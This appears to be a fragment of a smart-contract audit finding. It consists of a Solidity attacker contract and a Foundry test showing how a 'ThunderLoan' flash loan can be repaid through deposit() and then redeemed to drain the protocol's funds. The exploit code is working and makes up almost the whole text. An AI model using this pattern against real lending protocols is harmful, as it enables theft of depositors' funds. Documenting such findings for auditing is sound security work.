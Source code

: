 Attacker's Contract:

```solidity
contract Exp {
    address owner;
    ThunderLoan thunderLoan;
    uint256 balanceBeforeFlashLoan;
    uint256 balanceAfterFlashLoan;

    constructor(address addr){
        owner = msg.sender;
        thunderLoan = ThunderLoan(addr);
        balanceBeforeFlashLoan = 0;
    }

    function executeOperation(
        IERC20 token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata
    ) external returns (bool){
        balanceBeforeFlashLoan = token.balanceOf(address(this));
        token.approve(address(thunderLoan), amount + fee);
        thunderLoan.deposit(token, amount + fee);
        balanceAfterFlashLoan = token.balanceOf(address(this));
    }

    function getBalanceBeforeFlashLoan() external view returns (uint256) {
        return balanceBeforeFlashLoan;
    }
    function getBalanceAfterFlashLoan() external view returns (uint256) {
        return balanceAfterFlashLoan;
    }
    function sendAssetToken(IERC20 token) public {
        token.transfer(msg.sender, token.balanceOf(address(this)));
    }
}
```

Test:

```solidity
function testWithdrawAllFunds() public setAllowedToken hasDeposits {
    uint256 amountToBorrow = AMOUNT * 10;
    vm.startPrank(user);
    Exp exp = new Exp(address(thunderLoan));
    tokenA.mint(address(exp), AMOUNT);
    thunderLoan.flashloan(address(exp), tokenA, amountToBorrow, "");
    exp.sendAssetToken(tokenA);
    thunderLoan.redeem(tokenA, type(uint256).max);
    vm.stopPrank();
    console.log("thunderLoan.Balance:", vm.toString(tokenA.balanceOf(address(thunderLoan.getAssetFromToken(tokenA)))));
}
```

